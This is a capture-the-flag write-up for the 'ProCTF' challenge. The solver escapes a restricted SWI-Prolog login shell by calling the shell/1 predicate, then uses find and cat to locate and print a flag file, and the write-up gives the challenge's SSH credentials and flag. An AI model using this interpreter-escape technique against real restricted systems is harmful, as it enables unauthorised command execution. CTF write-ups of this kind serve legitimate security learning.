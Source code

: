 ## ProCTF Writeup

#### Challenge Statement

We Provide you a Login for your scientific researches. Don't try to find the flag.

ssh pro@95.179.148.72
Password: iamthepr0

#### Description

After `ssh`ing into the server, we're met with a standard Ubuntu welcome message. The prompt, however, is somewhat strange, and standard Unix commands don't seem to work...

```sh
?- ls
|    clear
|    cd
|
```

#### Solution

At a bit of a loss, I eventually tried ctrl-C, which led to an interrupt handler with an option to print the stack trace.

```
?- ^C
^C

WARNING: By typing Control-C twice, you have forced an asynchronous
WARNING: interrupt.  Your only SAFE operations are: c(ontinue), p(id),
WARNING: s(stack) and e(xit).  Notably a(abort) often works, but
WARNING: leaves the system in an UNSTABLE state

Action (h for help) ? C-stack trace labeled "INT":
sh: 1: addr2line: not found
  [0] /usr/lib/swipl/lib/x86_64-linux/libswipl.so.8(+0xfc85a) [0x7f3c590df85a]
sh: 1: addr2line: not found
  [1] /usr/lib/swipl/lib/x86_64-linux/libswipl.so.8(+0x9dfec) [0x7f3c59080fec]
...
```

Looks like we're dealing with something called `swipl`. A quick search led me to Prolog, a declarative programming language commonly used for AI research.

I found that a `flag` function was defined, which expected 3 arguments. This was a red herring, however, as it's actually a built-in Prolog function.

Eventually I arrived at the `shell` command, allowing arbitrary code execution on the surrounding shell. Suspecting that there was a flag file, I ran `find / -name "*flag*".`

```sh
?- shell('find / -name "*flag*"').
find: ‘/root’: Permission denied
/home/user/flag.txt
find: ‘/var/cache/ldconfig’: Permission denied
...
```

Looks like I was right. All that was left was to print it out:

```sh
?- shell('cat /home/user/flag.txt').
cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}
true.
```

#### Flag

`cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}`